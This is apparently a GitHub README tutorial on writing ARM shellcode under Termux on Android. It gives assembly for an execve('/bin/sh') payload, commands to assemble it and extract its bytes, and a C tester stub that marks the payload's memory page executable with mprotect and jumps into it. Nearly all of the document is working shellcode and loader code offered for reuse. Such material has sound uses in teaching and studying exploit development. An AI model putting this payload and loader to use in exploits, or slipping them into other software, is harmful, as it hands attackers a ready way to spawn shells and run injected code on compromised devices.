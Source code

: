 # Shellcode développement 
  shellcode injection 
# Environnement
  ` ~ $> uname -a
Linux 2023 armv8l Android `

  `~ $> Device model:
  RMX3231`

  `~ $> Packages CPU architecture:
  arm `

  `termux-tools/stable 1.39.4 `

# requirements
  ` ~ $> nasm --v
NASM version 2.16.01 compiled on Dec 22 2022`

  ` ~ $> nim --v
Nim Compiler Version 2.0.0 [Android: arm]
Compiled at 2023-08-01
Copyright (c) 2006-2023 by Andreas Rumpf`

  `~ $> ld -v
GNU ld (GNU Binutils) 2.41`

  `~ $> as -v
GNU assembler version 2.41 (arm-linux-androideabi) using BFD version (GNU Binutils) 2.41`

  `~ $> clang/stable 17.0.4 arm `

  `~ $> gcc -v
clang version 16.0.6
Target: armv7a-unknown-linux-android24
Thread model: posix `

# file asm
create a file [shell.s](https://github.com/Dkwebpoint/shellcode/blob/d8a27ade633d2060e7ea94e51a31313262a34ec3/Shell.s)

```
GNU nano 7.2             shell.s
.global _start
.text

_start:
       .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shX"
```

# Compile and execute:

```
~ $> as shell.s -o shell.o
~ $> ld --help
--- snip --
-N, --omagic        Do not page align data, do not make text readonly.
~ $> ld -N shell.o -o shell
```
![ Use ld -N ](https://github.com/Dkwebpoint/shellcode/blob/be42d7cafd5f195efc91ec5d1cd4022ccbb6128e/IMG_20231109_055637.jpg)
# Extract the shellcode
```
~ $> objcopy -O binary shell shell.bin
~ $> hexdump -v -e '"\\""x" 1/1 "%02x" ""' shell.bin               $>\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x58
```
![extrct the shellcode](https://github.com/Dkwebpoint/shellcode/blob/702defc0e20912539f6ecb994810f9c96dc78e65/IMG_20231109_143924.jpg)

# Shellcode tester 

create a file [ShellTester.c](https://github.com/Dkwebpoint/shellcode/blob/36c5cbee6fddb6f48329b393e88a74c329c25c82/ShellTester.c)

```
GNU nano 7.2                                                 shelltester.c
/**********************************************************************
*
* Program: shelltester.c
*
* Date: 08/11/2023
*
* Purpose: This code is used to provide a C template to paste shellcode
*          into and be able to run it live from within an ELF binary's
*          char buffer. This allows you to create a buffer with the
*          shellcode globally and this program will mark it as RWX using
*          mprotect() and then finally jump into.
*
* gcc -m32 -z execstack shelltester.c -o shellcodetester
*
***********************************************************************/
#include <stdio.h>
#include <unistd.h>
#include <sys/mman.h>

/////////////////////////////////////////////////////
//  source file: shell.s
/////////////////////////////////////////////////////                                                                                        char payload[] = "\x01\x30\x8f\xe2"
                 "\x13\xff\x2f\xe1"
                 "\x02\xa0"
                 "\x49\x40"                                                                                                                                   "\x52\x40"
                 "\xc2\x71"
                 "\x0b\x27"
                 "\x01\xdf"
                 "\x2f\x62\x69\x6e"
                 "\x2f\x73\x68\x58";

int main() {
    // Print the banner.
    puts("\n\t\033[33;1m---===[ Shellcode Tester Stub v1.0 ]===---\033[0m\n");

    // Print the size of the shellcode.                                                                                                          printf(" [\033[34;1m*\033[0m] Shellcode Size:  %d\n", sizeof(payload)-1);

    // Create a function pointer to the shellcode and
    // display it to the user.
    void (*shell)();
        shell=(void (*)())payload;

    printf(" [\033[34;1m*\033[0m] Shellcode Address: %p\n", shell);

    // Calculate the address to the start of the page for the
    // the shellcode.
    void *page_offset = (void *)((int)shell & ~(getpagesize()-1));
    printf(" [\033[34;1m*\033[0m] Shellcode page: %p\n", &page_offset);

    // Use mprotect to mark that page as RWX.
    mprotect(page_offset, 4096, PROT_READ|PROT_WRITE|PROT_EXEC);

    // Finally, use our function pointer to jump into our payload.
    puts("\n\033[33;1m---------[ Begin Shellcode Execution ]---------\033[0m");
    (*shell)();

    // We likely won't get here, but might as well include it just in case.
    puts("\033[33;1m---------[  End Shellcode Execution  ]---------\033[0m");
    return 0;
}
```
# Compile and test the shellcode 

```
~ $> gcc -o shelltester -z execstack ShellTester.c
```


